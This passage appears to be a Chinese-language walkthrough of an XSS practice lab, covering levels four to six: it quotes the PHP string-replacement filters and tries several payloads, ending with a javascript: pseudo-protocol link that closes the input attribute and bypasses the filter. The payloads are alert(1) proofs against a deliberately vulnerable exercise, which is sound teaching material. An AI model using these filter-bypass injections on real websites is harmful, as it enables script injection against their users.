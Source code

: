 ```
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
```

这里把标签的符号过滤了，就只能采用闭合的方式

<input name=keyword  value="'.$str3.'">

这里同时用单引号和双引号包裹

加单引号以后还是被双引号包裹当成一个字符串传进去的

### 第五关

<script>alert(1)</script>

不行

" onclick="alert(1)

也不行

' onclick='alert(1)

都不行

直接看源码吧

```
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
```

这直接把<script替换成了<scr_ipt，而且把所有的on替换了，所有的事件属性都是带有on的，所以就只能换成其他标签构造语句

源代码是<input name=keyword  value="'.$str3.'">

还是要先闭合双引号

这里就用到了

javascript伪协议

"><a href="javascript:alert(1)"

payload的长度：31变成了一个链接打开就过关了

看了源码感觉大小写绕过也是可以的啊

str_replace是大小写敏感的str_ireplace()对大小写不敏感

"><sCriPt>alert(1)</sCrIpt>

$str = strtolower($_GET["keyword"]);

突然发现前面还有一个函数strtolower，这个函数可以把所有大写字母转化为小写，所以大小写绕不过

### 第六关

直接看源代码吧

```
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
```
